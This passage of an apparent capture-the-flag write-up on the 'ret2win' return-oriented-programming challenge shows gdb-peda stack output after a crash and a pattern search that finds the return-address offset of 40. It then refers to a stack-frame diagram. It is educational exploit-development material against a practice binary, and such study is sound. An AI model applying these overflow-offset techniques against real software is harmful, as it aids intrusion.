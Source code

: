 ```
0000| 0x7fffffffddd8 ("AA0AAFAAbA\n")
0008| 0x7fffffffdde0 --> 0xa4162 ('bA\n')
0016| 0x7fffffffdde8 --> 0x7ffff7dda565 (<__libc_start_main+213>:	mov    edi,eax)
0024| 0x7fffffffddf0 --> 0x7fffffffded8 --> 0x7fffffffe21e ("/home/pwn0x80/Documents/ctfs/rop/ret2wins/ret2win")
0032| 0x7fffffffddf8 --> 0x1f7fc7000 
0040| 0x7fffffffde00 --> 0x400697 (<main>:	push   rbp)
0048| 0x7fffffffde08 --> 0x7fffffffe1f9 --> 0x48228dfe71299143 
0056| 0x7fffffffde10 --> 0x400780 (<__libc_csu_init>:	push   r15)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400755 in pwnme ()
gdb-peda$ pattern search AA0AAFAAbA\n
Registers contain pattern buffer:
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RSP] --> offset 40 - size ~12
Pattern buffer found at:
0x00007fffffffddb0 : offset    0 - size   50 ($sp + -0x28 [-10 dwords])
References to pattern buffer found at:
0x00007fffffffb608 : 0x00007fffffffddb0 ($sp + -0x27d0 [-2548 dwords])
0x00007fffffffb720 : 0x00007fffffffddb0 ($sp + -0x26b8 [-2478 dwords])
0x00007fffffffda00 : 0x00007fffffffddb0 ($sp + -0x3d8 [-246 dwords])
0x00007fffffffda18 : 0x00007fffffffddb0 ($sp + -0x3c0 [-240 dwords])

```
The offset is `40`

The stack frame for this exploit should look like this. 
![e177c09f9cd819b24273de17b1286d61.png](../_resources/35beef3276c1461b9bb34b3b7511b2e0.png)

